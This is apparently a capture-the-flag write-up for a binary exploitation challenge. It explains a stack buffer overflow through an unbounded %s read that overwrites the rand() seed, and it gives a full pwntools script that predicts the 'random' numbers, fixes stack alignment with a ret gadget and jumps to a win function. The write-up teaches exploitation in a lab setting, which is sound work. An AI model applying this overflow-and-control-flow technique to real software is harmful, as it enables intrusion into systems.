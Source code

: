 the challenge description says we have to guess ? i dont think so :P<br>
![My Image](./img/really_random_challenge_desc.png)<br>

first we anayze the binary and rename variables<br>
![My Image](./img/Decomp_randome.png)<br>

we have a win()  named potato :D <br>
![My Image](./img/win.png)<br>
![My Image](./img/vars.png)<br>

here we have the overflow vuln the format specifier `%s` does not cap the amount of bytes we can input.<br>
![My Image](./img/vuln_1.png)<br>

we can overflow the Stack but how can we reach the ret;<br>
![My Image](./img/goal_1.png)<br>
we have to `guess` the 10 numbers that are generated and transformed here<br>
![My Image](./img/winningNumbers.png)<br>
take a quick look into the rc4() <br>
we copy paste this and add it to our Exploit Script.

```py
def rc4(randNumber,seed):
    tmp = (seed + randNumber >> 0x1f) >> 0x18
    return (seed + randNumber + tmp & 0xff) - tmp
```
![My Image](./img/rc4.png)<br>

ok now how can we guess the 10 numbers ? <br>
We know that the numbers are generated by the `c` implementation of a `pseudo random number generator` the `rand()`.
The `rand()` and the `srand()` are related to each other.<br>
Without the `srand()` function, the `rand()` function would always generate the same number each time the program is run.<br>

this first call to `rand()` will allways generate the same number.<br>
![My Image](./img/vuln_2.png)<br>
that means we know the seed and can generate the correct numbers by ourself.<br>

```
# this will import the libc rand() function to our python script
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')
```


but even better we dont need to generate the correct seed because we overwrite the seed variable anyways with our Bof Payload <br>

the seed is initiated here<br>
![My Image](./img/gdb_seed.png)

after our Palyload is read in we can see the the seed is overwritten<br>
![My Image](./img/payload_overwrite_seed.png)
so we simply set the seed to 0x00<br>

```
    payload = b''
    payload += b'A'*112                       #fill the 112 bytes of the inputbuffer
    payload += p64(seed)                      #overflow the seed
```
now we generate 10 randome numbers with the `0x1337` seed

```py
for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')
```

and here is the full Script

```py
    seed = 0x1337
    libc.srand(seed)


    payload = b''
    payload += b'A'*112
    payload += p64(seed)                                 #set thee seed 
    payload += p64(0x1122334455667788)*2
    payload += p64(rop.find_gadget(['ret'])[0])          #return to fix Stack alignment
    payload += p64(elf.symbols['potato'])                #jump to the potato()


    sl(payload)

    rc('Guess my numbers!')
    sleep(1)

    for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')

    inter()

```

care for Stack alignment otherwhise we end up here in a `SIGSEGV` because the `movaps` instruction needs a 0x10 byte aligned Stack<br>
![My Image](./img/movaps_issue.png)

```
Moves a double quadword containing four packed single-precision floating-point values from the source operand (second operand) to the destination operand (first operand). This instruction can be used to load an XMM register from a 128-bit memory location, to store the contents of an XMM register into a 128-bit memory location, or to move data between two XMM registers.

When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.
```
source: https://c9x.me/x86/html/file_module_x86_id_180.html<br>



<br>


